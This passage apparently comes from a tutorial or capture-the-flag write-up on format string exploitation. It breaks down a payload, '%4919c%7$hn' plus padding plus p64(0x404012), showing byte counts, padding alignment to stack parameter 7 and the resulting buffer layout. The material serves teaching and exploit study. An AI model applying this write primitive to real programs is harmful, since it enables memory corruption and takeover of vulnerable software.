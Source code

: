 ```
String        | Characters        | Byte Count
--------------|-------------------|------------
"%4919c%"     | %, 4, 9, 1, 9, c, % | 7 bytes
"7$hn"        | 7, $, h, n        | 4 bytes
--------------|-------------------|------------
Total:                              11 bytes
```

We need the address to land at byte 16 (parameter 7), so we need **5 more bytes** of padding:

```
Part           | Bytes | Position
---------------|-------|----------
"%4919c%7$hn"  | 11    | 0-10
"AAAAA"        | 5     | 11-15 (padding)
p64(0x404012)  | 8     | 16-23 (parameter 7!)
```

### Step 3: Understanding the Payload Layout

```python
payload = "%4919c%7$hn" + "AAAAA" + p64(0x404012)
```

Memory layout after sending:
```
Buffer Position | Content            | Stack Parameter
----------------|--------------------|-----------------
buf[0]:  '%'    |                   |
buf[1]:  '4'    |                   |
buf[2]:  '9'    |                   |
buf[3]:  '1'    |                   |
buf[4]:  '9'    |                   |
buf[5]:  'c'    |                   |
buf[6]:  '%'    |                   |
buf[7]:  '7'    |                   | Parameter 5
----------------|--------------------|-----------------
buf[8]:  '$'    |                   |
buf[9]:  'h'    |                   |
buf[10]: 'n'    |                   |
buf[11]: 'A'    |                   |
buf[12]: 'A'    |                   |
buf[13]: 'A'    |                   |
buf[14]: 'A'    |                   |
buf[15]: 'A'    |                   | Parameter 6
----------------|--------------------|-----------------
buf[16]: 0x12   | ┐                 |
buf[17]: 0x40   | │                 |
buf[18]: 0x40   | │ 0x404012        |
buf[19]: 0x00   | │ (little-endian) |
buf[20]: 0x00   | │                 |
buf[21]: 0x00   | │                 |
buf[22]: 0x00   | │                 |
buf[23]: 0x00   | ┘                 | Parameter 7
```

